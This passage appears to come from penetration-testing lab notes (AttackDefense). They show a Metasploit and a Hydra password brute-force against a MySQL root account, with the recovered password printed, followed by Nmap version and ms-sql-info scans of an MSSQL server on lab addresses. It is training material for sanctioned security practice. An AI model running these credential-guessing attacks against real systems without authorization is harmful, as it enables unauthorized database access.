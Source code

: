 <strong>[+] 192.28.228.3:3306     - 192.28.228.3:3306 - Success: 'root:catalina'
</strong>[*] 192.28.228.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</code></pre>

Here we got the password for root.

We can do the same thing using Hydra:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.28.228.3 mysql
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 09:27:55
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.28.228.3:3306/
<strong>[3306][mysql] host: 192.28.228.3   login: root   password: catalina
</strong>1 of 1 target successfully completed, 1 valid password found
</code></pre>

## MSSQL Nmap Scripts

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:21 IST
Nmap scan report for 10.5.29.39
Host is up (0.0016s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000
```

To get the info about the database, we can use the following command:

```sh
root@attackdefense:~# nmap 10.5.29.39 -p 1433 -sV --script=ms-sql-info
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-29 15:22 IST
Nmap scan report for 10.5.29.39
Host is up (0.0017s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM

Host script results:
| ms-sql-info: 
|   10.5.29.39:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
```


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.